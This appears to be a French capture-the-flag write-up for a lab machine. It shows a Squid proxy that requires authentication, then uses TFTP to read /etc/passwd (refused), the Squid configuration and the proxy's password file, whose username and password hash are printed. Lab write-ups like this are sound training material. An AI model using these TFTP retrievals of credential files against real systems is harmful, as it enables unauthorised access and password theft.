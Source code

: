 ## 3128 : squid


![](img/10.10.10.21_3128_squid.png)

Le proxy doit pemettre d'accéder à un serveur interne, mais il faut passer l'authentification.
Un indice : kalamari


## tftp

### Get squid conf

```
# tftp 10.10.10.21

tftp> get /etc/passwd
Error code 2: Access violation

tftp> get /etc/squid/squid.conf           
Received 295428 bytes in 17.7 seconds

```

Dans /etc/squid/squid.conf, on trouve la partie authent
```
#
# INSERT YOUR OWN RULE(S) HERE TO ALLOW ACCESS FROM YOUR CLIENTS
#
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords    <=== on le récupère aussi
auth_param basic realm kalamari
```
```
# tftp 10.10.10.21

tftp> get /etc/squid/passwords
Received 48 bytes in 0.0 seconds
tftp> 

cat passwords
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```
